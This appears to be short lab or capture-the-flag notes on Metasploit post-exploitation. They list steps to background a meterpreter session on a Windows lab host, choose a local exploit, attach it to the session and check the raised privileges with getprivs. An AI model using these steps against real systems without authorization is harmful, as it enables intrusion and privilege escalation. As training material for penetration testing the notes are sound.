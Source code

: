1.
Background our current - session -> background/CTRL + Z

Background session 1? [y/N]  
2.
Keep an eye of your current session num -> sessions

Active sessions
===============

  Id  Name  Type                     Information             Connection
  --  ----  ----                     -----------             ----------
  1         meterpreter x86/windows  Dark-PC\Dark @ DARK-PC  10.11.37.62:4444 -> 10.10.246.24:49240 (10.10.246.24.
3.
Select our previously found exploit -> use /exploit/path
4.
If required (show options) -> set SESSION <session-ID>
5.
run the exploit - run
6.
Verify that we have expanded permissions -> getprivs
